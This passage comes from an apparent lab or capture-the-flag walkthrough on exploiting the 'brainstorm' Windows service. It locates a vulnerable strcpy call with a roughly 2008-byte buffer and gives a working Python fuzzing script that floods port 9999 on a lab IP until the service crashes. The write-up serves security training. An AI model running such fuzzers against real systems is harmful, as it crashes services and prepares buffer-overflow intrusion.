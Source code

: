     - click play button to start then the << to stop/restart
5. connect with `nc windows machine ip 9999`
    - find the machine ip with `ipconfig` - on windows
    - `ip a` linux
 
NOTE: If you are on a windows machine, you can run everything from the cmd connecting with `ncat localhost 9999`


# Finding the bad function
![badfn](/assets/images/brainstorm/badfn.png)

Now, what makes this a bad function?

In C there are multiple functions that allow leaks of memory, or for the memory to be overwritten. In our case the function `strcpy` is what makes this particular function vulnerable to a buffer overflow.

Knowing now which area is creating the overflow we also see that the memory alottment for this buffer is `2008`, seen in the var `local_7dc`. This tells us that the amount of characters that will crash the buffer will be around `2008`. :brain:


# Fuzzing
The fuzz script I will be using:
```
import socket, time, sys

ip = "192.168.3.129"

port = 9999
timeout = 5
prefix = ""

string = prefix + "A" * 2000
def send_name(s):
    sent=False
    name=""
    if not sent:
        print("sent name {}".format(name))
        sent=True
        s.send(bytes(name + "\r\n", "latin-1"))

while True:
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(timeout)
            s.connect((ip, port))
            s.recv(1024)
            s.send(bytes("" + "\r\n", "latin-1"))
            print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
            s.send(bytes(string + "\r\n", "latin-1"))
            s.recv(1024)
    except:
        print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
        sys.exit(0)
```